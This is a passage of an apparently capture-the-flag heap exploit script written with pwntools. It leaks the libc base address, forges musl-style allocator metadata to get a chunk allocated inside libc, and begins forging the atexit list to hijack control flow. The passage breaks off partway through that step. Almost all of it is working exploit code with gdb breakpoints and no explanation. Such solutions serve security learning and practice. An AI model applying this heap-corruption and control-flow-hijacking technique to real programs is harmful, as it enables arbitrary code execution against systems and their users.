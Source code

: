 ```Python
	break *(0x0000555555554000+0x2239)
	break *free
	telescope (0x0000555555554000+0x204360) 40
	break *exit
	''')

Prepare()

#leave remain char in chunkA
Create([0xFFFFFFFF]*11)
Delete(0)

#pass a game to write Record
Create([0x0]*3)		#idx:0
Bye()

#reuse chunkA to leak libc addr
Challenge([0], 'A'*0x10)
List()

sh.recvuntil('\xff'*16)
libc.address = u64(sh.recv(6).ljust(8, '\x00'))-0x297d20
Log('libc.address')

#add a challenge
Prepare()
Create([0x0]*3)		#idx:1
Bye()

#write secret to Result_Buf
Challenge(['golden', 1152, 'golden', 1145])

#forge meta 
Prepare()
for i in range(11):
	Create([0x0]*3)	#idx: [2, 13)
Bye()

def ForgeMeta(cont):
	cont = cont.ljust(0x2C, '\x00')
	print(len(cont))
	res = ['silver', 'silver']
	for i in range(0, len(cont), 4):
		res+=[u32(cont[i: i+4])]
	print(len(res))
	Challenge(res)

exp = flat(0)
exp+= flat(libc.address+0x297db0, libc.address+0x296d80)	# prev=chunk_15, next=head
exp+= flat(libc.address+0x297d50)	# mem
exp+= flat(0x3Fe)					# avail_mask, freed_mask
exp+= p32(0xa9)						# sizeclass
ForgeMeta(exp)

#malloc chunk in libc.so
Prepare()
Create([0x0]*10)		#13

#atexit
Create([0x0]*10)		#14

#forge atexit list
addr = libc.address+0x297db0-0x100+0x10	#head->next
```